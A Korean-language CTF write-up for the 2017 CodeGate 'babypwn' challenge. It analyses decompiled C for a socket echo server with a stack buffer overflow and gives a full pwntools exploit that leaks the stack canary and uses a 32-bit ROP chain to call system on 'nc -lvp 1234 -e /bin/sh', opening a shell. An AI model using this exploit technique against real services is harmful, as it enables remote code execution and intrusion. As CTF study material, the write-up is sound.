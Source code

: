 ```yaml
---
layout: post
title: "2017 CodeGate babypwn Write up"
excerpt: "Canary&ROP를 공부하기 적합한 문제"
date: 2020-08-17
categories: [system, ctf]
comments: true
---
```


이번에는 보호기법 중 StackCanary를 우회하여 32bit rop를 하는 문제를 풀어보았다. 

<h3> 0x0. Binary
</h3>

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



<h3>0x1. main
</h3>
코드의 메인을 확인해보면 그냥 소켓통신을 위한 코드인 것 같다.

```c
unsigned int __cdecl main(int a1, char **a2)
{
  socklen_t addr_len; // [esp+20h] [ebp-30h]
  int optval; // [esp+24h] [ebp-2Ch]
  int v5; // [esp+28h] [ebp-28h]
  struct sockaddr addr; // [esp+2Ch] [ebp-24h]
  struct sockaddr v7; // [esp+3Ch] [ebp-14h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  if ( a1 == 2 )
    v5 = atoi(a2[1]);
  else
    v5 = 8181;
  dword_804B1BC = socket(2, 1, 0);
  if ( dword_804B1BC == -1 )
  {
    perror("[!] socket Error!");
    exit(1);
  }
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(v5);
  *(_DWORD *)&addr.sa_data[2] = 0;
  bzero(&addr.sa_data[6], 8u);
  optval = 1;
  setsockopt(dword_804B1BC, 1, 2, &optval, 4u);
  if ( bind(dword_804B1BC, &addr, 0x10u) == -1 )
  {
    perror("[!] bind Error!");
    exit(1);
  }
  if ( listen(dword_804B1BC, 1024) == -1 )
  {
    perror("[!] listen Error!");
    exit(1);
  }
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      fd = accept(dword_804B1BC, &v7, &addr_len);
      if ( fd != -1 )
        break;
      perror("[!] accept Error!");
    }
    if ( !fork() )
      break;
    close(fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  sub_8048B87();
  close(dword_804B1BC);
  close(fd);
  return __readgsdword(0x14u) ^ v8;
}
```

코드를 확인해보면 특별한 값이 없으면 8181포트를 연결한다. 그럼 이제 sub_8048B87등의 기타 함수를 보자.

사실상 메인으로 보여지는 sub_8048A71()

```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

를 보면 변수의 메모리는 40인데 입력값을 100을 받는걸 볼 수 있고, 여기서 Bof 취약점이 발생한다.



<h3>0x2 Exploit Vector</h3>

이제는 어떻게 공격을 해보면 좋을지 생각해보자.  일단 Bof를 이용해야 하는데 NX bit가 있으므로 ROP를 이용할거다. 그리고 canary가 있으니 canary leak을 해야한다.

우선 canary값을 leak하는 코드이다 . 40바이트만 찍으면 나와야 하는데 41바이트를 해야 출력되는걸 봐서는 canary의 첫 바이트는 0x00임을 알 수 있다. 

```python
from pwn import *

p = remote('localhost',8181)
e = ELF("./babypwn")

ppppr = 0x08048eec
recv_plt = e.plt['recv']
system_plt = e.plt['system']

cmd = 'nc -lvp 1234 -e /bin/sh'

#stack canary leak
p.sendlineafter('> ','1')
p.sendafter(': ','A'*41)
leak = p.recv(1024)[41:44]
canary = u32('\x00' +leak)
print "[+] Stack Canary Leak :" +hex(canary)


p.close()

p = remote('localhost',8181)

p.sendlineafter('> ','1')

#ROP
pay = 'A'*40
pay +=  p32(canary)
pay += 'A'*12

pay += p32(recv_plt)
pay += p32(ppppr)
pay += p32(4)
pay += p32(e.bss())
pay += p32(len(cmd)+1)
pay += p32(0)

pay += p32(system_plt)
pay += 'A'*4
pay += p32(e.bss())

p.sendlineafter(': ', pay)
p.sendlineafter('> ','3')

sleep(1)

p.sendline(cmd)
```



이 문제는 리버스 커넥션을 이용하여 해결하였다. 거진 두달만에 ctf문제를 풀어보는 것 같은데, 많이 분발해야겠다. 

아직도 카나리를 릭하는걸 잘 못하겠다. + 리버스 커넥션 개념도 이번에 처음 이용해보았는데 좀 더 알고 써야겠다.